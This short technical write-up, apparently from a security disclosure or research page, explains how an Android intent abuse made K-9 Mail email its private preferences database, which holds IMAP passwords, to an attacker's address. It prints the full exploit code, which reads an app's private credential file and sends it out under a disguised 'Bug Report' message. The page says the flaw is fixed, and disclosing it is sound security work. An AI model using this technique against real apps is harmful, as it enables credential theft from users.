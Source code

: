 
This example is intended to surreptitiously share IMAP passwords of K-9 Mail
with an attacker. Please note that K-9 Mail serves only as an example,
the issue has already been fixed in the current release and was present
in many more apps

The code required to execute this attack follows:

    Intent i = new Intent();
    i.setComponent(new ComponentName("com.fsck.k9", "com.fsck.k9.activity.MessageCompose"));
    i.setAction(Intent.ACTION_SEND); i.setType("text/plain");
    Uri uri = Uri.parse("file:///data/data/com.fsck.k9/databases/preferences_storage");
    i.putExtra(Intent.EXTRA_STREAM, uri);
    i.putExtra(Intent.EXTRA_TEXT, "Hello World");
    i.putExtra(Intent.EXTRA_EMAIL, new String[]{"support@company.com"});
    i.putExtra(Intent.EXTRA_TEXT, "Dear support team,...");
    i.putExtra(Intent.EXTRA_SUBJECT, "Bug Report");

This can be reproduced by connecting to a Android device via `adb shell` and
then observing the output of `dmesg | grep avc`.
